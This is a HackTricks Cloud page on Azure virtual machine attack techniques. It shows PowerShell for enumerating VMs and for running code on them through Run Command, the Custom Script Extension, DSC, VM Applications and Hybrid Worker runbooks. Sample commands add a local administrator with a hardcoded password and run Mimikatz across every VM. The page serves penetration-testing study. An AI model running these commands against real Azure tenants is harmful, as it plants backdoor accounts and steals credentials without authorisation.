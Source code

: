 # Az - Virtual Machines

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic information

Azure virtual machines are one of several types of [on-demand, scalable computing resources](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) that Azure offers. Typically, you choose a virtual machine when you need more control over the computing environment than the other choices offer. This article gives you information about what you should consider before you create a virtual machine, how you create it, and how you manage it.

## Enumeration

```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```

## **Run commands in a VM**

### **Run Command**

```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Run Custom Script Extension**

Azure virtual machine (VM) extensions are **small applications** that provide post-deployment configuration and automation **tasks** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** is similar to Ansible, but is a tool within PowerShell that allows a host to be setup through code. DSC has its own extension in Azure which allows the upload of **configuration files**. DSC [configuration files](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) are quiet picky when it comes to syntax, however the DSC extension is very gullible and will **blindly execute any command** anything as long as it follows a certain format, as shown in figure 5.

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

This can be done via the **Az PowerShell** function [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). The DSC extension requires a **.PS1** with a **function** and **packaged** in a **.zip** file. Since this actually isn’t correct DSC syntax, the extension status will read as “failure”, however the code will be executed. The issue with this is that there is no output of the command, as the status is overwritten with the failure message.

### VM Application Definitions

The [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) resource is a way to **deploy versioned applications repeatably** to an Azure VM. For example, if you create a **program** and **deploy** it to all Azure VMs as version 1.0, once you **update** the program **to 1.1**, you can use the same VM Application to **create another definition** and push the update out to any VM.\
Being able to **push out an application** to a VM means it’s another avenue for **code execution**. This method’s drawback is that setting up the Application Definition [**requires a few steps**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), but can be accomplished using the **`New-AzGalleryApplication`** and **`New-AzGalleryApplicationVersion`** cmdlets in Az PowerShell.

This technique works by utilizing an **extension “VMAppExtension”** which is automatically installed when applying an application to a VM. The extension downloads the file from the URI to disk as the name of the Application _exactly_, meaning if application name is ‘AzApplication’, the file on disk is also called ‘AzApplication’ with no extension. This requires the “ManageActions” field in the [REST API call](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) to be configured to rename the application with the appropriate extension. If you don’t want to run an entire application, arbitrary PowerShell commands can be run by also abusing the ManageActions field in the same REST API method or also through the Azure Portal. Once set up, the definition will be similar to figure 8.

<figure><img src="../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

This execution technique is unfortunately slow (about 3-4 minutes to execute an app or command), however with it being relatively new I would be surprised if there’s any specific detections written.

Since it’s an extension that ultimately does the execution, a copy of the application is located at `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` and the status of the execution is kept in `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

****[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) allow a configured **Runbook** in an Automation Account to be **ran** on an **Azure Virtual machine** that is part of the **configured HWG**. Once again, an **extension is used** on the VM to deploy the Runbook code onto the VM. Since an extension is used, credentials are irrelevant and the code is executed as **SYSTEM** or root.

<figure><img src="../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

If using a Windows 10 VM, it’s important to have the Runbook run as PowerShell Version 5.1 instead of 7.1, as 7.1 isn’t installed on the VMs by default and the script will fail to run.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
